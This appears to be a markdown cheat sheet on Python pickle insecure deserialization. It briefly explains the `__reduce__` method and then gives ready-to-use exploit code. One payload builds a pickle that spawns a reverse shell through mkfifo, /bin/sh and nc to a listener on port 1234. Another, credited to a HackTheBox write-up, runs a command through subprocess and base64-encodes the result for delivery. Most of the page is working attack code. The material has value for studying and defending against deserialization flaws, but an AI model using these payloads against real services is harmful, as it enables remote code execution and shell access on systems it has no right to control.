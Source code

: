 # more technologies will be added soon !

### python 

### `__reduce__`

- In Python, `__reduce__` is a special method that allows you to customize the process of object serialization and deserialization using the `pickle` module. 
- When an object is pickled, the `__reduce__` method is called to provide a custom way to represent the object's state as a tuple.
- The `__reduce__` method should return a tuple that contains:

1. A callable (usually a class or a function) that will be used to reconstruct the object during unpickling.
2. A tuple of arguments to be passed to the callable when reconstructing the object.


### Exploit example
```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

```

## another Example

- exploit for this object 
```
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

- this exploit [source](https://0x00sec.org/t/pickle-insecure-deserialization-hackthebox-baby-website-rick/27130)
```python
#!/usr/bin/env python
import pickle
import pickletools
import base64
import os
import subprocess

class anti_pickle_serum(object):
	def __reduce__(self):
		cmd = ['whoami']
		#return os.system, (cmd,)
		return subprocess.check_output, (cmd,)

exploit_obj = anti_pickle_serum()
raw_pickle = pickle.dumps({"serum" : exploit_obj}, protocol=0)

optimed_pickle = pickletools.optimize(raw_pickle)
pickletools.dis(optimed_pickle)

payload = base64.b64encode(raw_pickle)

print(payload)

```

